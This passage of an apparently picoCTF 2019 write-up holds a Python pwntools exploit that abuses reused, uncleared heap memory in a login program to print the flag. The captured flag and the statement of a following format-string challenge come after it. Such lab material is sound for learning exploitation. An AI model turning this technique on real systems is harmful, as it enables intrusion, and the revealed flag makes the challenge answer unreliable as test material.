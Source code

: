 ```python
if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process(BINARY, stdout=stdout, stdin=stdin)

  if DEBUG:
    attach_gdb()

  REMOTE = False
else:
  sh = remote('2019shell1.picoctf.com', 12286)
  REMOTE = True

code = ''
code += unhex('4343415f544f4f52')[::-1]
code += unhex('45444f435f535345')[::-1]
print code

sh.sendlineafter('> ', 'login')
sh.sendlineafter('username\n', '32')


payload = ''
payload += p64(0x0000000000602000) # username ptr
payload += code
payload += p64(0xdeadbeefdeadbeef) # files ptr

sh.sendlineafter('username\n', payload)
sh.sendlineafter('> ', 'logout')


sh.sendlineafter('> ', 'login')
sh.sendlineafter('username\n', '16')
sh.sendlineafter('username\n', 'bbb')

sh.sendlineafter('> ', 'print-flag')

sh.interactive()
```

flag: `picoCTF{g0ttA_cl3aR_y0uR_m4110c3d_m3m0rY_8aa9bc45}`

# stringzz

## Problem

Use a format string to pwn this program and get a flag. Its also found in /problems/stringzz_2_a90e0d8339487632cecbad2e459c71c4 on the shell server. Source.

